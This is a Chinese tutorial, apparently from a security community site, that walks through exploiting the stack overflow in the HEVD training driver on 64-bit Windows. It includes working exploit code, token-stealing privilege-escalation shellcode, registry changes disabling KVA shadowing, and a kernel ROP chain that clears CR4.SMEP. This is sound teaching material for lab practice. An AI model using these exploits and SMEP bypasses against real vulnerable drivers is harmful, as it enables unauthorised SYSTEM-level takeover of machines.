

# 从零探索现代 windows 内核栈溢出 - 以 HEVD 练习为例（中） - 先知社区

从零探索现代 windows 内核栈溢出 - 以 HEVD 练习为例（中）

- - -

在上一篇中了解了与内核的交互模式，这里就可以开始做 HEVD 了

## 编写交互模块

### A. 计算 IO\_CTL 值

**其实不用这步，但是可以当作更多的了解**

在之前的交互中有这么一条定义功能号

```plain
#define IOCTL_MUL CTL_CODE(FILE_DEVICE_UNKNOWN, 0x9888, METHOD_BUFFERED, FILE_ANY_ACCESS)
```

但是...HEVD 逆向会发现是这样的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131532-43d80762-b8e5-1.png)

发现`CTL_CODE`也是个宏定义

```plain
#define CTL_CODE( DeviceType, Function, Method, Access ) (                 \
    ((DeviceType) << 16) | ((Access) << 14) | ((Function) << 2) | (Method) \
)
```

其中，这里

-   DeviceType -> FILE\_DEVICE\_UNKNOWN = 0x22
-   Function -> = 0x9888
-   Method -> METHOD\_BUFFERED=0
-   Access -> FILE\_ANY\_ACCESS=0

表达式就为

```plain
(0x22 << 16) | (0 << 14) | ( 0x9888 << 2) | 0
= 0x220000 | 0 | 0x9888 << 2 | 0
= 0x220000 | 0x9888 << 2
= 0x226220
```

很容易得到逆向，这里以`0x226220`为例子

```plain
0x205B = 0x22205B ^ 0x220000
0x816 = 0x205B>>2
```

那么对应的函数

```plain
unsigned int io2num(unsigned int ioctl_num) {
    return ((ioctl_num ^ 0x220000) >> 2) & 0xfff;
}
```

后面之所以要&一下是因为数据的大小就只有那么大，所以（上）的描述符`0x9888`实际有效的只有`0x888`

### B. 功能选择

这里就以 HEVD 最简单的内核栈溢出举例子

每开始一个漏洞利用就编写一个菜单，然后选择解析逆向出来的功能描述符，运行对应函数，没啥好讲的

```plain
void menu() {
    cout << "============HEVD Hack EXP============\n";
    cout << " 1. [0x222003]****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ******\n";
    cout << "input io ctl> ";
}

int main()
{
    HANDLE hDevice = NULL;
    hDevice = CreateFileW(L"\\\\.\\My1DeviceLinker", GENERIC_READ | GENERIC_WRITE, 0, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hDevice == INVALID_HANDLE_VALUE) {
        cout << "Error Create File\n";
        return 0;
    }

    unsigned int io_ctl = 0;
    menu();
    scanf_s("%x", &io_ctl);
    printf("%x, %x", io_ctl, io2num(io_ctl));

    switch (io_ctl)
    {
    case 1: {
        cout << "Now Excuting ...\n";
        cout << "1. [0x222003]****** HEVD_IOCTL_BUFFER_OVERFLOW_STACK ****** ...\n";
        //
        // EXP FUNCTION HERE
        //
    }
    default:
        break;
    }
}
```

### C. 简单与功能交互

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130106-401ee412-b8e3-1.png)

这里要传一个空间和大小过去，这里用的到方式就是上一篇的 IOCTL 方式

这里我把所有的 exp 定义在`exp.c`

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x50] = "aaaaa\0";
    unsigned int size = 0x30;
    DWORD info = 0;
    DeviceIoControl(hDevice, ioctl, stackspace, sizeof(DWORDLONG), &size, sizeof(DWORDLONG), &info, NULL);
    std::cout << "IO Complete\n";
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130127-4c326d5a-b8e3-1.png)

驱动定义了一个 2048 大小的栈空间`v5`，但是写入的空间是我们可以控制的，尝试触发漏洞

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x1000;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130141-54fa502e-b8e3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130150-5a5ae3f8-b8e3-1.png)

### D. 开始调试

之前符号表好像没加载上，在 windbg 中，HEVD 的描述符一般在同级文件夹下

```plain
.sympath+ <pdb 文件物理机上的路径>
```

然后再

```plain
lm m HEVD
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130202-610dd6b0-b8e3-1.png)

```plain
x /D /f HEVD!*
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130211-66a80a46-b8e3-1.png)

下个断点

```plain
bp HEVD!TriggerBufferOverflowStack
```

这里运行下不崩溃的

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130223-6de0893c-b8e3-1.png)

#### I. Windbg 调试常用

在使用 Windbg 调试内核驱动程序时，你可以使用以下命令查看内存地址：

-   64 位查看内存
    
    ```plain
    dq <内存地址> L <要查看的长度，长度是 64 位为一组>
    ```
    
-   64 位查看内存，单列显示，这在查看栈的情况是比较好用
    
    ```plain
    dqs <内存地址> L <要查看的长度，长度是 64 位为一组>
    ```
    
-   在某处添加断点
    
    ```plain
    bp <内存虚拟地址>
    ```
    
    ```plain
    bp <模块名>!<函数名>
    //bp: break point 如 bp HEVD!TriggerBufferOverflowStack
    ```
    
-   查看所有断点
    
    ```plain
    bl
    ```
    
-   快速反汇编，适合查看 gadget
    
    ```plain
    u <内存地址>
    ```
    
-   反汇编该地址对应的一段汇编，适合反汇编这段函数后选择断点
    
    ```plain
    uf <内存地址>
    uf <模块名>!<函数名>
    ```
    
-   计算器
    
    ```plain
    ? <计算表达式>
    ```
    

#### II. 内存布局

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130243-799dd89c-b8e3-1.png)

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    unsigned int size = 0x80;
    RtlFillMemory(stackspace, size, 'A');
    DWORD info = 0;

    DeviceIoControl(hDevice, ioctl, 
        stackspace, size, 
        NULL, 0, 
        &info, NULL);

    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```

如果引发溢出的话，看看 kernel 中的`v5`变量的布局

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130453-c77a050e-b8e3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130503-cd04b870-b8e3-1.png)

这里的 kernelBuffer 就相当于用户模式下的“栈帧”

同时可以看到我们程序的内存

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130512-d24d119c-b8e3-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130521-d7df4878-b8e3-1.png)

这个时候顺便看一下 rbp

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130530-dd1023b2-b8e3-1.png)

在`pop`前下断点再运行到

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131650-72711f50-b8e5-1.png)

所以是 rsp+0x20+0x818 就得到 ret 的地址

很明显这里可以通过栈溢出劫持返回地址，然后实现我们的 shellcode

#### III. 布置构思

-   首先 **驱动是 64 位**，所以要用 64 位的思维去布局
-   其次，驱动和我们的程序内存之间是能访问的，所以我们在 Ring3 写 shellcode，然后覆盖到 Ring0 去执行

那么就是

```plain
"a"*0x810+p64(shellcode_addr)
```

## Shellcode+exp 编写

### A. shellcode

主要是用这篇：[Exploiting Windows 10 Kernel Drivers - Stack Overflow](https://blog.xpnsec.com/hevd-stack-overflow/) 或者里面参考的两篇

主要目的就是拿去 Token 然后替换掉一个 cmd.exe 的 Token 实现提权，**在下一篇文章中会详细提到**

> This time around we will pass the PID into the shellcode, which means that our tweaked shellcode will look like this:
> 
> ```plain
> [BITS 64]
> 
> push rax
> push rbx
> push rcx
> push rsi
> push rdi
> 
> mov rax, [gs:0x180 + 0x8]   ; Get 'CurrentThread' from KPRCB
> 
> mov rax, [rax + 0x220]       ; Get 'Process' property from current thread
> 
> next_process:
> cmp dword [rax + 0x2e0], 0x41414141  ; Search for 'cmd.exe' process ('AAAA' replaced by exploit)
> je found_cmd_process
> mov rax, [rax + 0x2e8]            ; If not found, go to next process
> sub rax, 0x2e8
> jmp next_process
> 
> found_cmd_process:
> mov rbx, rax                     ; Save our cmd.exe EPROCESS for later
> 
> find_system_process:
> cmp dword [rax + 0x2e0], 0x00000004  ; Search for PID 4 (System process)
> je found_system_process
> mov rax, [rax + 0x2e8]
> sub rax, 0x2e8
> jmp find_system_process
> 
> found_system_process:
> mov rcx, [rax + 0x358]            ; Take TOKEN from System process
> mov [rbx+0x358], rcx              ; And copy it to the cmd.exe process
> 
> pop rdi
> pop rsi
> pop rcx
> pop rbx
> pop rax
> 
> ; return goes here
> ```

### B. EXP

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    char shellcode[256] = {
        0x50, 0x53, 0x51, 0x56, 0x57, 0x65, 0x48, 0x8b, 0x04, 0x25,
        0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80, 0x20, 0x02, 0x00,
        0x00, 0x81, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x41, 0x41, 0x41,
        0x41, 0x74, 0x0f, 0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00,
        0x48, 0x2d, 0xe8, 0x02, 0x00, 0x00, 0xeb, 0xe5, 0x48, 0x89,
        0xc3, 0x83, 0xb8, 0xe0, 0x02, 0x00, 0x00, 0x04, 0x74, 0x0f,
        0x48, 0x8b, 0x80, 0xe8, 0x02, 0x00, 0x00, 0x48, 0x2d, 0xe8,
        0x02, 0x00, 0x00, 0xeb, 0xe8, 0x48, 0x8b, 0x88, 0x58, 0x03,
        0x00, 0x00, 0x48, 0x89, 0x8b, 0x58, 0x03, 0x00, 0x00, 0x5f,
        0x5e, 0x59, 0x5b, 0x58, 0x48, 0x83, 0xc4, 0x28, 0xc3, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
        0xff, 0xff, 0xff, 0xff, 0xff, 0xff
    };

    DWORD oldProtect;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode;

    DWORD info = 0;

    VirtualProtect(shellcode, 256, PAGE_EXECUTE_READWRITE, &oldProtect);
    printf("[*] Spawning a new cmd.exe process\n");
    si.cb = sizeof(STARTUPINFOA);
    if (!CreateProcessA(NULL, (LPSTR)"cmd.exe", NULL, NULL, true, CREATE_NEW_CONSOLE, NULL, NULL, &si, &pi)) {
        printf("[!] FATAL: Error spawning cmd.exe\n");
        return;
    }

    printf("[*] Updating our shellcode to search for PID %d\n", pi.dwProcessId);
    *(DWORD*)((char*)shellcode + 27) = pi.dwProcessId;

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    std::cout << "IO Complete\n";
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130801-37668f04-b8e4-1.png)

然后到 ret 返回，查看返回地址

```plain
k
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130810-3c60344c-b8e4-1.png)

发现返回地地址已经被覆盖了，继续走下去

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130818-412e3ae6-b8e4-1.png)

跳转到了 shellcode 了，再走两步

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130826-461a8e56-b8e4-1.png)

？？？

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130834-4ae1c4d6-b8e4-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131138-b8edd082-b8e4-1.png)

说我在执行不可执行的内存，但是明明已经`VirtualProtect(shellcode, 256, PAGE_EXECUTE_READWRITE, &oldProtect);`

？？？越来越离谱了

尝试把 shellcode 移动到常量内存中试试，还是不行，接着我再进行 ioctl 之前 pause 一下，好像可以了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131150-bfe12272-b8e4-1.png)

但是依然被说执行不可执行代码

## 新的保护机制

查了[其他的解法](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/#)，发现 Windows 8 过后微软添加了一个叫做 SMEP 保护的东西

你可以在这里查到关于 Windows 的所有保护机制：[https://learn.microsoft.com/zh-cn/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10](https://learn.microsoft.com/zh-cn/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10)

> -   **监督器模式执行防护 (SMEP)** ：帮助防止内核 (“监督器”) 在用户页面中执行代码，这是攻击者用于本地内核提升特权 (EOP) 的常见技术。此配置需要在 Intel Ivy Bridge 或更高版本处理器中找到处理器支持，或者具有 PXN 支持的 ARM。

尝试关闭该保护后执行 exp，**但是发现是无法关闭的**，由于内核的整体设计导致该保护在 windows8 及以上是不能被关闭的，那么就只能想办法绕过了

### A. SMEP 保护机制及手动绕过

该保护机制强烈依赖于 CPU 的`RC4`寄存器，刚好我这里有《英特尔® 64 位和 IA-32 架构开发人员手册合订本》，翻出来看一下

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131203-c7d50bf6-b8e4-1.png)

> \[机翻\]从用户模式地址获取指令。  
> 访问权限取决于 CR4.SMEP 的值：  
> • 如果 CR4.SMEP = 0，访问权限取决于分页模式和 IA32\_EFER.NXE 的值：  
> — 对于 32 位分页或如果 IA32\_EFER.NXE = 0，则可以从任何用户模式获取指令  
> 地址。  
> — 对于 IA32\_EFER.NXE = 1 的其他分页模式，可以通过每个分页结构条目中 XD 标志为 0 的转换从任何用户模式地址获取指令  
> 控制翻译；指令可能无法从任何用户模式地址获取  
> 在任何控制转换的分页结构条目中 XD 标志为 1 的转换。  
> • 如果 CR4.SMEP = 1，则不能从任何用户模式地址获取指令。  
> — 仅允许对管理员模式影子堆栈地址进行管理员模式影子堆栈访问  
> （往上看）。

或许我们将`CR4.SMEP`的值设置为`0`就关闭了 SMEP 保护

CR4 寄存器的结构如下（小端序顺序从右向左）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131230-d79abf7c-b8e4-1.png)

不急，继续搜索发现了一份 Intel 关于 SMEP 的更详细的描述

文档：[https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging\_technologies/fischer.pdf](https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging_technologies/fischer.pdf)

尝试使用调试起修改 CR4

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130907-5e662222-b8e4-1.png)

如果修改第 20 位为 0，rc 的值为`0x270678`，然而还是不行

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130915-638ce24a-b8e4-1.png)

### B. KVAS

Windows 内核缓解机制使用了 Kva Shadow 内存，比如 MeltDown 漏洞就于此有关，首先不会讲细节，**在下一篇文章会讲到**，尝试将其关 bi

再注册表`HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\Memory Management`

创建两个 DWORD 值：`FeatureSettingsOverride` `FeatureSettingsOverrideMask`

设置值为 3，然后重启

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130934-6e8b7c88-b8e4-1.png)

现在手动设置 cr4.SMEP 为 0

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130942-739ff4e2-b8e4-1.png)

终于运行了

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122130953-79d8e1ca-b8e4-1.png)

shellcode 的一些偏移有问题

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131032-915d8e68-b8e4-1.png)

更换为

```plain
BYTE cmd[256] = {
    0x48, 0x31, 0xc0, 0x65, 0x48, 0x8b, 0x80, 0x88, 0x01, 0x00,
    0x00, 0x48, 0x8b, 0x80, 0xb8, 0x00, 0x00, 0x00, 0x49, 0x89,
    0xc1, 0x48, 0x8b, 0x80, 0x48, 0x04, 0x00, 0x00, 0x48, 0x8b,
    0x00, 0x48, 0x8b, 0x50, 0xf8, 0x49, 0x89, 0xc0, 0x48, 0x8b,
    0x00, 0x48, 0x83, 0xfa, 0x04, 0x75, 0xf0, 0x49, 0x8b, 0x50,
    0x70, 0x48, 0x83, 0xe2, 0xf8, 0x49, 0x8b, 0x89, 0xb8, 0x04,
    0x00, 0x00, 0x48, 0x83, 0xe1, 0x07, 0x48, 0x01, 0xca, 0x49,
    0x89, 0x91, 0xb8, 0x04, 0x00, 0x00, 0x65, 0x48, 0x8b, 0x04,
    0x25, 0x88, 0x01, 0x00, 0x00, 0x66, 0x8b, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x66, 0xff, 0xc1, 0x66, 0x89, 0x88, 0xe4, 0x01,
    0x00, 0x00, 0x48, 0x8b, 0x90, 0x90, 0x00, 0x00, 0x00, 0x48,
    0x8b, 0x8a, 0x68, 0x01, 0x00, 0x00, 0x4c, 0x8b, 0x9a, 0x78,
    0x01, 0x00, 0x00, 0x48, 0x8b, 0xa2, 0x80, 0x01, 0x00, 0x00,
    0x48, 0x8b, 0xaa, 0x58, 0x01, 0x00, 0x00, 0x31, 0xc0, 0x0f,
    0x01, 0xf8, 0x48, 0x0f, 0x07, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff, 0xff,
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff
};
```

EXP

```plain
void StackOverflow(HANDLE hDevice, unsigned int ioctl) {
    char stackspace[0x1000] = { 0 };
    DWORD oldProtect;

    printf("[*] Start Exploit\n");
    LPVOID shellcode_addr = VirtualAlloc(NULL,
        sizeof(cmd),
        MEM_COMMIT | MEM_RESERVE,
        PAGE_EXECUTE_READWRITE);
    memcpy(shellcode_addr, cmd, sizeof(cmd));

    unsigned int size = 0x820;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)shellcode_addr;

    DWORD info = 0;


    printf("shellcode space %p\n", shellcode_addr);
    printf("[*] Spawning a new cmd.exe process\n");

    system("pause");

    DeviceIoControl(hDevice, ioctl,
        stackspace, size,
        NULL, 0,
        &info, NULL);
    printf("info: %d\n", info);
    system("cmd.exe");
}
```

调试中手动 CR4.SMEP=0（注意，之前已经关闭了 KVA）

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131252-e481ad18-b8e4-1.png)

### C. 使用内核 ROP 绕过 SMEP

首先我们需要一个类似于`mov rc4,xxx`的 rop，让`rc4.smep=0`，

参考在 Linux 下进行 ROP 的经验，payload 大致长这样的

```plain
*(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx_ret;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_rc4_rcx_ret;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

多调试或者编程自动寻找就可以找到了，这里暂时参考[HEVD Exploits – Windows 10 x64 Stack Overflow SMEP Bypass](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit/#)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131406-11050a56-b8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131418-17d73a2a-b8e5-1.png)

修改 EXP

```plain
unsigned int size = 0x840;
    RtlFillMemory(stackspace, 0x810, 'A');
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)0xfffff807743f52c0;
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)0xfffff807749a41cf;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
    printf("[*] Start set ROP\n");
```

没有下断点直接过

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131429-1e64b778-b8e5-1.png)

[](https://xzfile.aliyuncs.com/media/upload/picture/20240122131439-2487b2cc-b8e5-1.png)

# 遗留

下一篇

-   user 编程寻找 ROPGadget
-   shellcode 编写
-   Token 提权
-   KVAS

# 参考

[https://www.bilibili.com/video/BV1pD4y1a7hP/](https://www.bilibili.com/video/BV1pD4y1a7hP/)

[https://www.cnblogs.com/XiuzhuKirakira/p/16995784.html](https://www.cnblogs.com/XiuzhuKirakira/p/16995784.html)

[https://blog.xpnsec.com/hevd-stack-overflow](https://blog.xpnsec.com/hevd-stack-overflow)

[https://h0mbre.github.io/HEVD\_Stackoverflow\_SMEP\_Bypass\_64bit](https://h0mbre.github.io/HEVD_Stackoverflow_SMEP_Bypass_64bit)

[https://learn.microsoft.com/zh-cn/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10](https://learn.microsoft.com/zh-cn/windows/security/threat-protection/overview-of-threat-mitigations-in-windows-10)

[https://joe1sn.eu.org/2023/02/17/windows\_kernel\_driver\_2/](https://joe1sn.eu.org/2023/02/17/windows_kernel_driver_2/)

[https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging\_technologies/fischer.pdf](https://web.archive.org/web/20160803075007/https://www.ncsi.com/nsatc11/presentations/wednesday/emerging_technologies/fischer.pdf)

[https://wumb0.in/windows-10-kvas-and-software-smep.html](https://wumb0.in/windows-10-kvas-and-software-smep.html)

[https://github.com/xct/windows-kernel-exploits/](https://github.com/xct/windows-kernel-exploits/)
